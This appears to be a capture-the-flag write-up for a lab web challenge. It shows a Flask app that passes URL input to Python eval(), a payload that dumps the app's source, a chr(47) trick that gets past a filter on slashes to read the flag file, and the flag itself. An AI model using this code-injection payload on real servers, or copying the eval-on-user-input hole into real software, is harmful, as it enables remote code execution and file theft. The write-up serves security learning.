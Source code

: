 #### Challenge:

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on [http://user-info-ng.mysterious-delivery.tcc](http://user-info-ng.mysterious-delivery.tcc).

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

---

#### Solution:

This seems to be the same as the [previous challenge](../Streamlining_portal/README.md) but supposedly with some extra protection.

Good news is, that we can still dump the code of the script with:

```text
http://user-info-ng.mysterious-delivery.tcc/hello/"+str(open(__file__).read())+"
```

which gives:

```python
from flask import Flask, Blueprint, redirect, render_template, abort
bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app @bp.route('/hello/<userstring>')

def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message) @bp.route('/')

def redirect_to_user():
    return redirect("/hello/user", code=302)
```

Comparison with previous challenge:

![diff.png](./diff.png ":ignore")


It seems we cant use `cd` due to explicit condition and `/` because of the change in routing (more info on that [here](https://stackoverflow.com/questions/15117416/capture-arbitrary-path-in-flask-route)).
Furthermore, for some reason I am not able to explain, I was not able to get content using the `os.popen().read()` exploit.

All this doesn't really matter, because the path to the flag stayed the same as in previous example and only thing to do, was to obfuscate slashes (`/`) with their ASCII value using `'+chr(47)+'`, to get around the change in routing.

So the exploit for this challenge that gets the flag is:

```text
http://user-info-ng.mysterious-delivery.tcc/hello/"+str(open('.'+chr(47)+'FLAG'+chr(47)+'flag.txt').read())+"
```

---

<details><summary>FLAG:</summary>

```
FLAG{hvIM-3aty-R39h-dOZ4}
```

</details>
<br/>
